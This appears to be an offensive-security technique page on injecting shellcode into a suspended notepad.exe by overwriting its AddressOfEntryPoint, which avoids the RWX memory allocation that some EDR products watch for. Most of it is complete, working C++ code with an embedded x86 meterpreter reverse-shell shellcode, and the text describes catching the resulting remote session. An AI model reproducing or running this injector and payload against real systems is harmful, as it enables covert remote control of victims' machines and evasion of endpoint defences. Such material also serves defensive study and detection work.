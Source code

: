 ```yaml
---
description: Code Injection
---
```


# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state. 
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:

![](../../.gitbook/assets/image%20%28148%29.png)

We then need to parse out the NT and Optional Headers and find the AddressEntryPoint \(Relative Virtual Address\) of the notepad.exe which in my case was at 0001bf90:

![](../../.gitbook/assets/image%20%2854%29.png)

Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address \(by adding the two up\) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:

![bytes at AddressOfEntryPoint get overwritten with shellcode](../../.gitbook/assets/overwrite-entrypoint.gif)

Resuming the suspended process executes our shellcode which results in a meterpreter session:

![](../../.gitbook/assets/overwrite-entrypoint-catch-meterpreter.gif)

## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

